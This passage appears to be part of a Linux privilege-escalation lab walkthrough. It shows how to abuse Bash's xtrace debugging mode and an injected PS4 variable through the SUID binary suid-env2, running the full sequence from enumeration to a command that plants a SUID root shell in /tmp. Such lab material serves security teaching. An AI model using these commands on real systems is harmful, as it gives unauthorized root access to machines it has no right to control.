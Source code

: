 ####   `/usr/local/bin/suid-env2`

## Abusing Shell Features \(\#2\)

Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace. By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set. When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown. If a SUID file runs another program via Bash \(e.g. by using system\(\) \) these environment variables can be inherited. If an SUID file is being executed, this command will execute with the privileges of the file owner. In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env2 file should execute with root user permissions.

Run strings on the SUID file

#### `strings /usr/local/bin/suid-env2`

the file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

This reveals that the system function is being used to execute the service program. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

#### `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash file with the -p command line option to get a root shell:

#### `/tmp/rootbash -p`



